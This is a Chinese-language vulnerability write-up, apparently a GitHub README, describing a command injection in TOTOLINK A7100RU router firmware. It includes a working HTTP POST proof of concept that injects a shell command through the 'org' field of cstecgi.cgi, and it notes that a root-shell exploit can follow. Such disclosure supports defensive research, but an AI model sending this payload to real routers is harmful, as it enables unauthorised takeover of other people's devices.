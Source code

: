 # TOTOlink A7100RU(V7.4cu.2313_B20191024)路由器存在命令注入漏洞

## 写在前面

厂商信息：http://totolink.net/

固件下载地址：http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## 1.影响版本

![img](img/wps25.jpg) 

 

 

图1为固件版本信息

## 2.漏洞细节

![image-20220720193617916](img/image-20220720193617916.png)

程序通过获取org参数下的内容传递给v4，之后将v4带入到Uci_Set_Str函数中

![image-20220720193637388](img/image-20220720193637388.png)

在Uci_Set_Str函数中，通过snprintf函数，将a4匹配到的内容格式化进v11，之后将v11带入cstesystem函数中

![image-20220720193705135](img/image-20220720193705135.png)

函数直接将用户输入内容带入到execv函数中，存在命令注入漏洞

## POC

```jsx
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: <http://192.168.0.1>
Referer: <http://192.168.0.1/adm/status.asp?timestamp=1647872753309>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/delStaticDhcpRules",
"org":"1$(ls>/tmp/123;)"}
```

复现结果如下

![img](img/wps26.png) 

 

图2 POC攻击效果

最后，您可以编写exp，这可以实现获得根shell的非常稳定的效果

![img](img/wps27.png) 

 